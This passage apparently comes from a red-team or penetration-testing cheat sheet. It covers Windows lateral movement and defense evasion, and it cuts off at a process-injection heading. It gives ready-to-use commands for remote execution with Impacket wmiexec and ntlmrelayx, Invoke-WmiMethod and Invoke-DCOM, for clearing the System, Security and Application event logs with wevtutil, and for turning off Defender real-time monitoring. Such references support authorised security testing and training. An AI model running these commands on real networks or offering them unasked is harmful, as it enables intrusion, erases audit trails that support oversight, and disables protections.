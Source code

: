 
#### 7.8 Lateral Movement via WMIExec 

- **WMIExec (Impacket)**:
    
    ```bash
    wmiexec.py <domain>/<username>:<password>@<target_ip>
    ```
    
- **Invoke-WmiMethod (PowerShell)**:
    
    ```powershell
    Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c <command>" -ComputerName <target_ip>
    ```
    

#### 7.9 Lateral Movement via DCOM 

- **Invoke-DCOM (PowerShell)**:
    
    ```powershell
    Invoke-DCOM -ComputerName <target_ip> -Method ShellExecute -Command "powershell.exe"
    ```
    

#### 7.10 SMB Relay Attack 

- **Impacket’s ntlmrelayx**:
    
    ```bash
    ntlmrelayx.py -tf targets.txt -smb2support
    ```
    

# 8. Defense Evasion 

#### 8.1 Clearing Event Logs 

- **Wevtutil**:
    
    ```powershell
    wevtutil cl System
    wevtutil cl Security
    wevtutil cl Application
    ```
    

#### 8.2 Disabling Security Tools 

- **Invoke-Obfuscation (PowerShell)**:
    
    ```powershell
    Invoke-Obfuscation -ScriptBlock { Set-MpPreference -DisableRealtimeMonitoring $true }
    ```
    

#### 8.3 Process Injection 

